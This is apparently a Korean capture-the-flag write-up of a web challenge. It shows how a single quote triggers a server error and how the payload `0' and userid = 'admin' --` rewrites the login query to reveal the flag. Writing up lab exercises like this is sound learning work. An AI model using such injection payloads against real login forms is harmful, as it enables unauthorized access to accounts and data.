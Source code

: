 * 입력 포인트가 존재하는 `login`으로 FLAG를 확인하기 위해서는 `userid`와 `userlevel`이 0이어야 한다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/631f9b3d-227c-42d1-845e-20236e69da8f" width = 850>
</p>

입력포인트에 **0** 대입 시 **hello guest** alert가 발생하게 되는데 FLAG 분기를 확인해보면 `userid` 파라미터를 통한 **admin** 확인을 진행한다.

하지만 실제로 파라미터는 userlevel만 넘어가며 guest로만 확인이 된다.

SQL Injection이 발생하는지 확인하기 위해 싱글 쿼테이션 `'`을 대입하면 아래와 같은 에러가 발생한다.

```
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

해당 분기에서 userid까지 포함시키기 위한 SQL 조작을 진행하면 된다.

```sql
select * from users where userlevel='0' -- 기본
```

```sql
select * from users where userlevel='0' and userid = 'admin' -- 조작
```

* `0`만 넣는 것이 아닌 `0' and userid = 'admin' --` 대입을 통해 기존 SQL문법을 조작하여 FLAG를 확인할 수 있다.
